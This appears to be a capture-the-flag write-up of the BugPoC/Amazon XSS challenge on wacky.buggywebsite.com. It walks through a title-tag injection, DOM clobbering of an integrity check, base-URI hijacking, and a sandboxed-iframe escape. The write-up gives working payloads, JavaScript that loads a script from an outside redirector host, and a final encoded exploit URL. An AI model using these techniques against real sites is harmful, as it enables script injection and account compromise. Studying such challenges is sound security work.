






# Write-up (XSS Challenge Amazon BugPoC)
* ## Target Website - wacky.buggywebsite.com
  * iframe loaded with src **wacky.buggywebsite.com/frame.html?param=hello**

* ## wacky.buggywebsite.com/frame.html?param=g
  * **XSS found on frame.html** - `<title>` is vulnerable to XSS!
  ```
  https://wacky.buggywebsite.com/frame.html?param=</title></head><body><b>hello</b></body><!--
  ```

    

  * **Cannot run inline scripts (nonce)!!!!**
  * Created an iframe with `name="iframe"` to run `frame.html?param=g`, since the page will only execute if run from inside a window named `iframe`:
  ```html
  </title></head><body><iframe src='https://wacky.buggywebsite.com/frame.html?param=g' name='iframe'></body><!-->
  ```
    
    
  
  * This enables the script inside frame.html 
* Looking at frame.html :
  
  

* This script inside `frame.html` can help us **bypass CSP**
* My idea involved leveraging the previous XSS to change **BASE URI** and then load the `files/analytics/js/frame-analytics.js` through a mock landing page using BugPoC Flexible Redirector and Mock landing page. 
---
## Step 1 - Bypass fileIntegrity check!
Inside the iframe : 
* For the script to successfully execute, we need to have the `fileIntegrity.value` in control!
* **DOM Clobbering** can be useful for this.
* Add an input field with `id = fileintegrity` and `value = controlled value(sha256sum of script)`
    ```
    https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3C/head%3E%3Cbody%3E%3Ciframe%20src=%22https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3C/head%3E%3Cinput%20id=%27fileIntegrity%27%20value=%27123%27%3E%22%20name=%22iframe%22%3E%3C/body%3E%3C!--
  ```
    
* This lets us control the `fileIntegrity.value` -

    

---

## Step 2 - Leveraging XSS in title to change BASE URI 
* When the above discussed script is allowed to execute, it creates another iframe of `class='invisible'`. Further, on integrity check success, it will also dynamically load a script from `files/analytics/js/frame-analytics.js`.

* Since, the address is relative, using a `<base>` URI tag inside the iframe to change the root can help us execute our own script.

* As we can see "allow-scripts" and "allow-same-origin" both are used together, this wrongly configured sandbox can be escaped by a script 

* Now we only need to add `<base>` to the inner iframe head to change the Base URI pointing to a **Flexible Redirector Link**.

```html
</title><base href='{link1}'><input id='fileIntegrity' value='{hashvalue}'></input></head>
```
* This will be our input to the inner iframe `frame.html?param=`. Where, `link1` is the **Flexible redirector link** and `hashvalue` is the controlled **sha256sum** of our script.

---
## Step 3 - Escaping sandboxed iframe
* This is the part where we will leverage the **misconfigured iframe sandbox**.
* To escape the sandbox we need our javascript to :
    
    1. Create new iframe element in parent document.
    2. Load a script in the new iframe.

```javascript
let par = window.parent.document.createElement('iframe');
window.parent.document.body.append(par);
let testscript = document.createElement('script');
testscript.setAttribute('src', 'https://bmd739pgx1wj.redir.bugpoc.ninja');
par.contentDocument.body.appendChild(testscript);
``` 
* Following HTTP headers:
```http
{
	"Access-Control-Allow-Origin": "*",
	"Content-Type": "application/javascript"
}
```
* The **Flexible Redirect Link for script 1** :
```URL
https://we99f6n9ocq5.redir.bugpoc.ninja
```
* We would also need another script hosted :
```javascript
alert(origin);
```
* And it's HTTP headers:
```http
{
	"Access-Control-Allow-Origin": "*",
	"Content-Type": "application/javascript"
}
```
* The **Flexible Redirect Link for script 2**:
```URL
https://bmd739pgx1wj.redir.bugpoc.ninja
```
---
## Final
* The Final payload:

```
https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3C/head%3E%3Cbody%3E%3Ciframe%20src%3D%22frame.html%3Fparam%3D%253C/title%253E%253Cbase%2520href%253D%2527https%253A//we99f6n9ocq5.redir.bugpoc.ninja%2527%253E%253Cinput%2520id%253D%2527fileIntegrity%2527%2520value%253D%2527rPtGsrgiV%252BiSg8XMjRLm%252BFgW8txbfFy3K4fjdIcOdUY%253D%2527%253E%253C/input%253E%253C/head%253E%22%20name%3D%22iframe%22%3E%3C/iframe%3E%3C/body%3E%3C%21--
```

### NOTE: All payloads are URL encoded. 

